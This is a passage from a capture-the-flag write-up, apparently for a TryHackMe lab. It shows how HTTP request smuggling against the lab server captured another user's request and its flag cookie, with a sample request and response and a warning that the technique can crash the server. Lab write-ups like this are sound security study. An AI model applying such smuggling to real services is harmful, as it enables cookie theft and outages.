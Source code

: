 ```http

data=
```

After playing a bit with smuggled request's `Content-Size` I got a user request containing the second flag as a cookie value:

{{% tabs %}}
{{% tab "Request" %}}
```http
GET /getMessages HTTP/2
Host: MACHINE_IP:80
Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.Z8tq_Q.gQXcvleCNmEbgOtBufFKNugsIP4
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://MACHINE_IP:80/messages
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers


```
{{% /tab %}}

{{% tab "Response" %}}
```http
HTTP/2 200 OK
Date: Fri, 07 Mar 2025 22:01:08 GMT
Content-Type: application/json
Content-Length: 2883
Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none';
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-Xss-Protection: 1; mode=block
Feature-Policy: microphone 'none'; geolocation 'none';
Age: 0
Server: El Bandito Server
Accept-Ranges: bytes

{"JACK":["The Galactic Enforcement's quantum sniffers are onto us, tracing our blockchain exploits.","They're using predictive analytics, thinking they're ahead in a 4D chess game across the blockchain.","You need to jump now! Awaiting your signal to close the portal.",null,null,"njk",null,...SNIP..."GET /access HTTP/1.1\r\nhost: bandito.public.thm:80\r\nscheme: https\r\nsec-ch-ua: \"Chromium\";v=\"122\", \"Not(A:Brand\";v=\"24\", \"HeadlessChrome\";v=\"122\"\r\nsec-ch-ua-mobile: ?0\r\nsec-ch-ua-platform: \"Linux\"\r\nupgrade-insecure-requests: 1\r\nuser-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/122.0.6261.128 Safari/537.36\r\naccept: text/html,application/xhtml xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7\r\nsec-fetch-site: none\r\nsec-fetch-mode: navigate\r\nsec-fetch-user: ?1\r\nsec-fetch-dest: document\r\naccept-encoding: gzip, deflate, br\r\ncookie: flag=THM{\u00a1!\u00a1REDACTED!\u00a1!}\r\nX-Forwa",null],"OLIVER":[]}

```
{{% /tab %}}
{{% /tabs %}}

> [!note]
> You might need to try several times. HTTP smuggling isn't precise and can cause service disruption: I had to reboot the machine because the server kept dying.

